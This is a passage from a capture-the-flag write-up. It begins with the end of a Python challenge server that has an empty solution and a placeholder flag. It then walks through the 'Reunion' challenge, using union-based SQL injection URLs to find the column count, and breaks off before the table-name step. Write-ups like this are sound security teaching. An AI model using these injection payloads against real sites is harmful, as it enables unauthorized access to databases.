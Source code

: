 ```python
        req.sendall("Here you go:")
        req.sendall(encrypt(data).encode('hex') + '\n')
        req.close()

class ReusableTCPServer(SocketServer.ForkingMixIn, SocketServer.TCPServer):
  pass

SocketServer.TCPServer.allow_reuse_address = True
server = ReusableTCPServer(("0.0.0.0", PORT), incoming)

print "Server listening on port %d" % PORT
server.serve_forever()
```

**Solution**  

**Flag**  
```
flag
```

## Web Exploitation 150: Reunion

**Challenge**  
SQL injection challenge, great resource for union based sql injection [here](http://securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html)

**Solution**  

first we find out how many columns there are by simply guessing and seeing when we get an output:

```
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5 from information_schema.tables where table_schema=database()--+
no results
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42 from information_schema.tables where table_schema=database()--+
no results
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134 from information_schema.tables where table_schema=database()--+
no results
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134,8 from information_schema.tables where table_schema=database()--+
Name: Saranac
Breed: Great Dane
Color: Black
Name: 42
Breed: 5
Color: 134
```

bingo!

next we find out the table name
